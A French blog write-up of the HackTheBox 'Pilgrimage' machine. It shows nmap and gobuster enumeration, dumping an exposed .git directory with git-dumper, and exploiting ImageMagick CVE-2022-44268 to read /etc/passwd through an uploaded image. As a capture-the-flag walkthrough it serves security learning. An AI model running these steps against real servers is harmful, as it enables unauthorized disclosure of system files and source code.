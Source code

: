 ```yaml
---
title:  "HacktheBox WriteUp : Pilgrimage"
category: HackTheBox
tag: writeups
---
```


### Scanner le réseau

`sudo nmap 10.10.11.219 -sV -A`

On voit qu'il y a le port 22 et 80 d'ouvert. On énumère un peu plus.


```console
┌──(misoko㉿kali)-[~]
└─$ nmap -n -p22,80 -sV -sC 10.10.11.219
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-29 10:52 CET
Nmap scan report for 10.10.11.219
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

On ajoute l'adresse au `/etc/hosts`.
```console
echo "10.10.11.219 pilgrimage.htb" | sudo tee -a /etc/hosts
```

On visite le site web, et pendant ce temps là on énumère sur le nom de domaine :
```console
┌──(misoko㉿kali)-[~]
└─$ gobuster dir -u http://pilgrimage.htb/ --wordlist /usr/share/dirb/wordlists/common.txt

...
/.hta                 (Status: 403) [Size: 153]
/.htaccess            (Status: 403) [Size: 153]
/.git/HEAD            (Status: 200) [Size: 23]
/.htpasswd            (Status: 403) [Size: 153]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/index.php            (Status: 200) [Size: 7621]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
```

Le path au `.git` m'interpelle.
On récupère le fichier `HEAD` qui contient un texte :
```console
└─$ cat HEAD      
ref: refs/heads/master
```

On télécharge le contenu qu'il y a à ce path :
```console
└─$ wget -r http://pilgrimage.htb/.git/refs/heads/master
```

On retrouve un fichier dans `master`, rien d'autres d'intéressants mis à part ça pour l'instant :

```console
┌──(misoko㉿kali)-[~/…/pilgrimage.htb/.git/refs/heads]
└─$ cat master 
e1a40beebc7035212efdcb15476f9c994e3634a7
```

On utilise le tool [git-dumper](https://github.com/arthaud/git-dumper?source=post_page-----9e070a99ac40--------------------------------) :
```
python3 git_dumper.py http://pilgrimage.htb/.git git
```

<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/gitdumper.png" width="300px" height="40px" style="display: block; margin: 0 auto"/>


On observe dans le code source de `index.php` une ligne de code qui nous donne le nom de l'outil utiliser pour réduire la taille de l'image :
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/codeIndex.png" width="500px" height="40px" style="display: block; margin: 0 auto"/>
On récupère la version de l'outil et on trouve un exploit sur google (CVE-2022-44268) avec un [POC](https://github.com/voidz0r/CVE-2022-44268).
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/versionMagick.png" width="200px" height="40px" style="display: block; margin: 0 auto"/>

### Utilisation de la CVE
```console
cargo run "/etc/passwd"
```
Puis on uplaod l'image sur le site, et on récupère l'image en output fourni par pilgrimage.htb.

```console
─$ identify -verbose 653e443922a9c.png
```
<img src="/assets/images/WriteUps/HackTheBox/Pilgrimage/DecryptedEtcPasswd.png" width="600px" height="100px" style="display: block; margin: 0 auto"/>

### Ref
- [git-dumper](https://github.com/arthaud/git-dumper?source=post_page-----9e070a99ac40--------------------------------)